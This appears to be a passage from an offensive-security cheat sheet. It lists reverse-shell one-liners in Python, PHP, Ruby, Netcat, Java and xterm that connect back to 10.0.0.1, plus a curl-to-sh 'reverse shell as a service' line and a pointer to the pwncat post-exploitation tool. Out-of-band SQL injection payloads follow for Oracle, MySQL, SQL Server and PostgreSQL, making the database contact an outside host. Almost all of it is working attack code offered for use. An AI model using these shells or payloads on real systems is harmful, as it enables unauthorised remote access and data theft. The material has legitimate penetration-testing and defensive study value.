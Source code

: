 <br># Python
<br>```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

<br># PHP
<br>```php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```

<br># Ruby
<br>```ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```

<br># Netcat
<br>```nc -e /bin/sh 10.0.0.1 1234```
<br>```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f```

<br># Java
<br>```r = Runtime.getRuntime()```
<br>```p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])```
<br>```p.waitFor()```

<br># xterm
<br>```xterm -display 10.0.0.1:1```
<br>```Xnest :1```
<br>```xhost +targetip```

https://reverse-shell.sh/
<br># Reverse Shell as a Service
<br>```nc -l 1337```
<br>```curl https://reverse-shell.sh/yourip:1337 | sh```

https://github.com/calebstewart/pwncat
<br># pwncat is a post-exploitation platform for Linux targets.

### <a name="SQLi-Manual"></a>SQLi (SQL Injection)
https://arxiv.org/abs/1303.3047
<br># This paper describes an advanced SQL injection technique where DNS resolution process is exploited for retrieval of malicious SQL query results.

<br># Oracle
<br>```'||(SELECT%20UTL_INADDR.GET_HOST_ADDRESS('xpto.example.com'))||'```
<br>```'||(SELECT%20UTL_HTTP.REQUEST('http://xpto.example.com')%20FROM%20DUAL)||'```
<br>```'||(SELECT%20HTTPURITYPE('http://xpto.example.com').GETCLOB()%20FROM%20DUAL)||'```
<br>```'||(SELECT%20DBMS_LDAP.INIT(('xpto.example.com',80)%20FROM%20DUAL)||'```

<br># MySQL
<br>```'||(SELECT%20LOAD_FILE('\\xpto.example.com'))||'```

<br># Microsoft SQL Server
<br>```'+;EXEC('master..xp_dirtree"\\xpto.example.com\"');+'```
<br>```'+;EXEC('master..xp_fileexist"\\xpto.example.com\"');+'```
<br>```'+;EXEC('master..xp_subdirs"\\xpto.example.com\"');+'```

<br># PostgreSQL
<br>```'||;COPY%20users(names)%20FROM%20'\\xpto.example.com\';||'```

